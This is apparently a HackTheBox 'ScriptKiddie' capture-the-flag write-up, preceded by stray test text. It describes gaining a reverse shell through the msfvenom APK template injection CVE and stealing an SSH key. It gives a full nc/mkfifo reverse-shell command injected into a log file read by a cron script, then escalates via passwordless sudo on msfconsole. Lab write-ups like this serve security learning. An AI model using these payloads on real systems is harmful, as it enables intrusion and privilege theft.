 # TEST123
asdfasdf

## Hackthebox.eu - ScriptKiddie
**February 7th, 2021**

This box was a web hosted script kiddies tool set. Utilizing known CVEs within the security tools it called on the back-end, we can get a reverse shell. From there we can abuse a poorly secured cronjob, to move laterally to another user who has password-less sudo configured for a tool that allows us to run commands.

### Quick Summary
* Craft a malicious android APK template for metasploit
* Upload template to the web front end and get a reverse shell
* Modify a log file to do bash command injection to get a second reverse shell
* Launch msfconsole with sudo, and drop to a ruby shell
* Read out the flag from ruby


#### Tools requried
Nothing fancy. a standard Ubuntu desktop should have everything you need by default

### Detailed steps
#### Port Scan
A portscan revealed a python web server on port 5000 and an active sshd service both running on an Ubuntu box of some kind.
```bash
$ nmap -sC -sV -oA nmap/init 10.10.10.226

 Nmap 7.91 scan initiated Sun Feb  7 11:01:09 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.040s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d\'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  7 11:01:18 2021 -- 1 IP address (1 host up) scanned in 9.43 seconds
```


#### Web Server (:5000)
This web server was a front end to a bunch of hacking tools. Here's how it was laid out

* **nmap**: Puts the given IP into an nmap command and outputs the result. The input seems to be regex'd for IPs and I couldn't find any injection that worked.
* **sploits**: Searches for exploits by your given string. I tried command injection but it gives a warning that they will hack you back. This turns out to be important for getting root later.
* **payloads**: Generates meterpreter binaries for different platforms with an optional template. Only Android and windows seemed to work, while Linux threw an error.

##### CVE-2020-7384 (msfvenom APK template command injection)
The metasploit templates are binaries that are used as a frame to inject your payload into. Normally, you can use custom templates to help evade anti-virus and intrusion detection systems.

This CVE references the ability to gain command injection by crafting malicious APK templates for an android platform. I found a proof of concept for this attack, but it had a few issues I had to overcome. The resulting PoC I used can be found here: https://gist.github.com/lungdart/2aa3673a872e386ea5ddc36186727711

I used this tool to generate a malicious APK file, and uploaded it to the *payloads* section of the form. Listening with netcat gave me a reverse shell as the user ```kid```
```bash
kid@scriptkiddie:~/logs$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

Once I was in as the ```kid``` user, There was an existing SSH key that I stole to stabilize my connection to the box.

#### Privilege escalation to pwn
##### kid's home directory
```kid```'s home directory contain the source code for the website. The code for the searchsploit section showed that an attempt at command execution would have your IP written to the log file ```/home/kid/logs/hackers```, which was empty

```bash
kid@scriptkiddie:~$ cat logs/hackers

```

Taking a look at the home directory itself shows another user named ```pwn```

##### pwn's home directory
``pwn`` had a suspicious shell script that I had read access to called ```scanlosers.sh```. This script seemed to check the hackers log file from ```kid```'s home directory, and run nmaps on the target and recording the output. After it did this it would erase the file contents. Looking around showed that this script was running extremely often.

Because we had write access to ```/home/kid/logs/hackers```, we could craft an evil entry, that contained command injection instead of an IP. Then when the system ran ```/home/pwn/scanlosers.sh``` it would run my command as the ```pwn``` user, and give me a reverse shell as them. The evil log entry I came up with was ```[2021-02-07 17:57:52.187031] 1.1.1.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 5051 >/tmp/f;```. I ran a netcat listener and put that into the log file, and immediately was gifted with a second reverse shell.

#### Privilege escalation to root
Checking sudo shows that the ```pwn``` user has password-less sudo access for the msfconsole tool.
```bash
pwn@scriptkiddie:~$ sudo -l
User pwn may run the following commands:
    (root) NOPASSWD: /usr/bin/msfconsole
```

since msfconolse has an interactive ruby interpreter built in, we can launch that, then exec commands to read out the flag.
```bash
pwn@scriptkiddie:~$ sudo msfconsole
msf > irb
[*] Starting IRB shell...
```

```ruby
echo `cat /root/root.txt`
```

I submitted the flag and finished the box!

